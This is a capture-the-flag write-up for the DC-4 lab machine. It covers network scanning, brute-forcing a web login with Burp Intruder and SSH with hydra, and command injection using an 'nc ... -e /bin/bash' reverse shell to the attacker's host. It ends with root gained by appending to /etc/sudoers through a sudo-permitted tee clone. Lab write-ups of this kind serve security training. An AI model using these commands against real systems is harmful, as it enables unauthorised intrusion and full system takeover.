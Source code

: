 # DC-4
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/1.png" >
</p>
Let’s start with scanning my local private network to get the adress IP of my target.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/netdiscover.png" >
</p>
the adress of my target => 10.0.4.20
Our next step is to scan our target with NMAP.
```
nmap -sC -sV -o scan.nmap 10.0.4.20
```
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/scan.png">
</p>
there is one port open: 80=> server APACHE et 22 => ssh.
Let's check the server Apache on port 80.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/1.png" >
</p>
Here is a login authentication, I tried first with **sqlmap** but no way to get logged in.So I tried brute forcing
with burp suite, we start first by intercepting the request after send it to Intruder.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/2.png" >
</p>
for all passwords trying I get the same code lenght, with **happy** password I get a different code. It is probably the right password 
for the admin account.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/3.png" >
</p>
Great, we logged in and there three options to execute some listed commands.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/4.png" >
</p>
So I edit the code source of the page and change the command "ls -al" to "nc 10.0.4.4 1234 -e /bin/bash". This command send a reverse
shell to my listener.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/6.png" >
</p>
That is working, I have a reverse shell and I logged in as a www-data user.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/7.png" >
</p>
I check the home directory for any useful information. Under the jim directory I find a list of his older passwords.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/8.png" >
</p>
I tried every password in the list with hydra through ssh login.Finally jibril04 is the correct password.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/9.png" >
</p>
I logged in with ssh with jim credentials. I check the home directory nothing useful,
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/10.png" >
</p>
So I read jim emails /var/mail/jim that is containing the charles password.
 <p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/11.png" >
</p>
I switch to charles user, and I run **sudo -l** and I found something valuable, /usr/bin/teehee command can be run as a root.
teehee command reads the standard input and writes it to both the standard output and one or more files.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/12.png" >
</p>
So I changed the file /etc/sudoers to give charles priviledge to execute every command as root.I run /bin/bash as root.
```
echo "charles ALL=(ALL) ALL" |sudo /usr/bin/teehee /etc/sudoers
sudo su
```
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/root_access.png" >
</p>
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/gif/lhjar.gif" width="460" height="170">
</p>
support me on [twitter](https://twitter.com/rajoul6)












